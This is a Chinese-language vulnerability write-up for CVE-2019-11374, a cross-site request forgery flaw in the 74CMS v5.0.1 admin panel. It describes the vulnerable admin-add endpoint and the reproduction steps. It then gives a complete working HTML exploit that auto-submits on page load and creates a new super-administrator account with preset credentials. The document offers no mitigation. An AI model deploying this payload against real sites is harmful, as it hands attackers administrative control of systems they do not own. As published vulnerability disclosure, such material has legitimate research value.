# 74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374

## 漏洞描述

在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 漏洞影响

```
74CMS v5.0.1
```

## 漏洞复现

首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

![QQ图片20190529155123.png](images/20190529207783.png)

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

![QQ图片20190529155156.png](images/20190529179538.png)

利用exp如下：

```
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0dayhack.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```

